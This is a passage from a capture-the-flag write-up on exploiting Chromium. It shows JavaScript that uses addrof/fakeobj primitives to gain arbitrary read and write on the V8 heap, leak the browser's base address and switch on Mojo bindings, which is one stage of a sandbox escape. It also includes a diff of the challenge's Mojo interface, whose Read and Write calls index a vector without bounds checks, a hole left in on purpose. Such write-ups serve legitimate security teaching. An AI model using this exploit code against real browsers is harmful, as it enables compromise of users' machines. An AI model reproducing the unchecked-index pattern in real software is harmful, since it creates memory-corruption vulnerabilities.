```javascript=
    var float_array_map = uint32[62];
    if (float_array_map == 0x3ff19999)
        float_array_map = uint32[63];

    var arr2 = [itof(BigInt(float_array_map)), itof(0n), itof(8n), itof(1n), itof(0x1234n), 0, 0].slice();
    var fake = fakeobj(addrof(arr2) - 0x38);
    var v8_heap = BigInt(uint32[12]) << 32n;

    function arbread(addr) {
        arr2[5] = itof(addr);
        return ftoi(fake[0]);
    }

    function arbwrite(addr, val) {
        arr2[5] = itof(addr);
        fake[0] = itof(val);
    }
    var leak = BigInt(addrof(window)) + 0x10n + v8_heap - 1n;
    var chrome_base = arbread(leak) - 0xc1ce730n;
    var mojo_enabled = chrome_base + 0xc560f0en;
    localStorage.setItem("chrome_base", chrome_base);
    arbwrite(mojo_enabled, 1n);
    window.location.reload();
}

```

#### Sandbox Escaping

For sandbox escaping, the challenge added a vulnerable Mojo interface `CtfInterface` to the Chromium browser. Here we only show the most important part of the challenge patch file:


```diff
+void CtfInterfaceImpl::Create(
+    mojo::PendingReceiver<blink::mojom::CtfInterface> receiver) {
+  auto self = std::make_unique<CtfInterfaceImpl>();
+  mojo::MakeSelfOwnedReceiver(std::move(self), std::move(receiver));
+}
+
+void CtfInterfaceImpl::ResizeVector(uint32_t size,
+                                    ResizeVectorCallback callback) {
+  numbers_.resize(size);
+  std::move(callback).Run();
+}
+
+void CtfInterfaceImpl::Read(uint32_t offset, ReadCallback callback) {
+  std::move(callback).Run(numbers_[offset]);
+}
+
+void CtfInterfaceImpl::Write(double value,
+                             uint32_t offset,
+                             WriteCallback callback) {
+  numbers_[offset] = value;
+  std::move(callback).Run();
+}
+

//.......omitted...........
// The CtfInterfaceImpl class
+class CONTENT_EXPORT CtfInterfaceImpl : public blink::mojom::CtfInterface {
+ public:
+  CtfInterfaceImpl();
+  ~CtfInterfaceImpl() override;
```